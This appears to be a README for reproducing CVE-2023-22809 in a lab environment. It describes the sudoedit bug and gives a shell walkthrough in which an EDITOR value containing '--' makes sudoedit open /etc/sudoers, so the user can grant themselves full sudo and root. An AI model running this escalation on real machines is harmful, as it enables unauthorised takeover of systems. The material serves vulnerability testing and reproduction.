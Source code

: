 # CVE-2023-22809

### Description
sudoedit in Sudo before 1.9.12p2 mishandles extra arguments passed in the user-provided environment variables (SUDO_EDITOR, VISUAL, and EDITOR), allowing a local attacker to append arbitrary entries to the list of files to process which can lead to privilege escalation.
The problem exists because a user-specified editor may contain a "--" argument that defeats a protection mechanism, e.g., an EDITOR='vim -- /path/to/extra/file' value.

### Command to run
```shell
python -m decret --number 2023-22809 --directory sudoedit-2023 
```

### Simple testing method

```shell
echo "toto ALL=(ALL:ALL) sudoedit /etc/hosts" >> /etc/sudoers
su toto
cd
id
sudoedit /etc/hosts # Operation accepted, because added in /etc/sudoers
sudo nano /etc/passwd # Operation denied
sudoedit /etc/sudoers # Operation denied
EDITOR="nano -- /etc/sudoers" sudoedit /etc/hosts # Operation accepted
# change to toto ALL=(ALL:ALL) ALL
sudo nano /etc/passwd # Operation accepted
```
You can edit the file and then get root access.
